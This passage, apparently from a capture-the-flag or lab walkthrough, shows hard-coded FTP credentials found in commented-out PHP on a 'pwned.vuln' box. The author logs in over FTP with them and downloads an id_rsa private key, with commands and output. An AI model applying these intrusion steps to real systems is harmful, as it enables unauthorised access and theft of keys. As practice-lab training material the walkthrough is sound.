 Checking out the source on `pwned.vuln`, I find this:

```html
<?php
//      if (isset($_POST['submit'])) {
//              $un=$_POST['username'];
//              $pw=$_POST['password'];
//
//      if ($un=='ftpuser' && $pw=='B0ss_Pr!ncesS') {
//              echo "welcome"
//              exit();
// }
// else
//      echo "Invalid creds"
// }
?>
```

I apply these to ftp and I'm able to login:

```bash
$ ftp 192.168.171.95
Connected to 192.168.171.95.
220 (vsFTPd 3.0.3)
Name (192.168.171.95:lemmy): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

I'll get the files in the ftp share:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||53007|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||49356|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r--    1 0        0              75 Jul 09  2020 note.txt
226 Directory send OK.
ftp> mget *
mget id_rsa [anpqy?]? y
229 Entering Extended Passive Mode (|||50508|)
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
100% |****************************************************************************************************************|  2602        1.42 MiB/s    00:00 ETA
226 Transfer complete.
2602 bytes received in 00:00 (55.87 KiB/s)
mget note.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||21780|)
150 Opening BINARY mode data connection for note.txt (75 bytes).
100% |****************************************************************************************************************|    75       91.89 KiB/s    00:00 ETA
226 Transfer complete.
75 bytes received in 00:00 (1.77 KiB/s)
```

